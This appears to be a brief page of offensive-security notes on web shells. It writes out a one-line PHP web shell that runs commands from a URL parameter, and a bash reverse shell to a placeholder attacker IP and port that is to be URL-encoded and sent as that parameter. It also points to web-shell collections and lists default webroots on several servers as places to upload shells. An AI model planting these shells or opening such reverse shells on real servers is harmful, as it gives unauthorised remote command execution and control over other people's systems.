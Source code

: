 
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Open reverse shell:
```shell
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
```
url encode it and send as cmd query or post parameter

Collection of webshells laudanum:
https://github.com/jbarcia/Web-Shells/tree/master/laudanum
`cp /usr/share/laudanum/... shellfile`

`/opt/useful/seclists/Web-Shells/

https://github.com/Arrexel/phpbash

Where to upload web shell:

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\|   |
| `XAMPP`    | C:\xampp\htdocs\|      |

